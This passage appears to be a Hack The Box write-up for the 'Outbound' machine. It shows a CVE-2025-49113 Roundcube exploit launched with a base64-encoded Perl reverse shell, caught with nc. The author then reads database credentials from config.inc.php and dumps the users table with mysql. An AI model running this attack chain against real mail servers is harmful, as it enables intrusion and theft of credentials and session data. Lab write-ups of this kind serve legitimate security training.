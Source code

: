 Below is an example of the base64 encoded perl reverse shell I used to phone back home to me. I tried other revshells, but this is the first one that worked. It seems like this service cannot touch /dev/tcp which took out a lot of bash native revshells.

```sh
$ php CVE-2025-49113.php http://mail.outbound.htb tyler LhKL1o9Nm3X2 cGVybCAtZSAndXNlIFNvY2tldDska<snip>FNUREVSUiwiPiZTIik7ZXhlYygic2ggLWkiKTt9Oyc=
[+] Starting exploit (CVE-2025-49113)...
[*] Checking Roundcube version...
[*] Detected Roundcube version: 10610
[+] Target is vulnerable!
[+] Login successful!
[*] Exploiting...
```
```sh
 nc -lvn 9999
Listening on 0.0.0.0 9999
Connection received on 10.129.19.116 47494
sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

My normal targets for webapps are the database configuration. Rarely does the db config itself give me the data I want, usually it's the users tables inside the DB that I'm after in these engagements.

```sh
$ pwd
/var/www/html/roundcube/config
$ ls -alhn config.inc.php
-rw-r--r-- 1 0 0 3.0K Jun  6 18:55 config.inc.php

$ cat config.inc.php
...
$config['db_dsnw'] = 'mysql://roundcube:RCDBPass2025@localhost/roundcube';
...
```

Here we can find the db connection string. Using the mysql client already installed on our victim, we can simply run queries directly against the database.  
I hadn't realized at this point that roundcube doesn't actually store credentials, it just stores valid sessions with credentials embedded in the session data on the DB. Here is some example commands of me navigating the DB.

```sh
mysql -u roundcube -pRCDBPass2025 -e "SHOW DATABASES;"
...
mysql -u roundcube -pRCDBPass2025 -e "SHOW tables from roundcube;"
...
mysql -u roundcube -pRCDBPass2025 -e "select * from roundcube.users;"
user_id username        mail_host       created last_login      failed_login    failed_login_counter    language        preferences
1       jacob   localhost       2025-06-07 13:55:18     2025-06-11 07:52:49     2025-06-11 07:51:32     1       en_US   a:1:{s:11:"client_hash";s:16:"hpLLqLwmqbyihpi7";}
2       mel     localhost       2025-06-08 12:04:51     2025-06-08 13:29:05     NULL    NULL    en_US   a:1:{s:11:"client_hash";s:16:"GCrPGMkZvbsnc3xv";}
3       tyler   localhost       2025-06-08 13:28:55     2025-07-12 19:59:09     2025-06-11 07:51:22     1       en_US   a:1:{s:11:"client_hash";s:16:"Y2Rz3HTwxwLJHevI";}
```
